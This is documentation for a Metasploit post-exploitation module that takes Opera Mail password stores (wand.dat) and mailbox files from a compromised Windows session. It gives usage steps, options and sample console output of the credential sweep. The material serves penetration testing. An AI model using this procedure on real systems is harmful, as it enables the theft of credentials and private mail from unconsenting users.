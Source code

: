 ## Module Description

This post-exploitation module gathers artifacts found on Operamail related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/operamail
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamailwand.da_873247.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513062118_default_192.168.56.106_EXTRACTIONwand.d_440695.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamail1.mbs_724517.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_258744.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail2.mbs_057429.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_565399.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail3.mbs_471143.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_391099.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamail4.mbs_468755.mbs

[+] To:************@gmail.com
[+] From:"************"<************@************.co.uk>
[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_975964.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamailm2_upgr_620846.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_994734.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062121_default_192.168.56.106_operamailm2_welc_906380.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_566934.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Processing C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamailwand.da_186519.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTIONwand.d_454986.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail1.mbs_378969.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTION.mbs_751986.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail2.mbs_427825.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_571426.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail3.mbs_783307.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_473719.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail4.mbs_771393.mbs

[*] searches for Email TO/FROM address
[+] To:************@gmail.com
[*] searches for Email TO/FROM address
[+] From:"******"<************@gmail.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_090332.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamailm2_upgr_993450.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_610156.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063653_default_192.168.56.106_operamailm2_welc_946408.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_150137.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
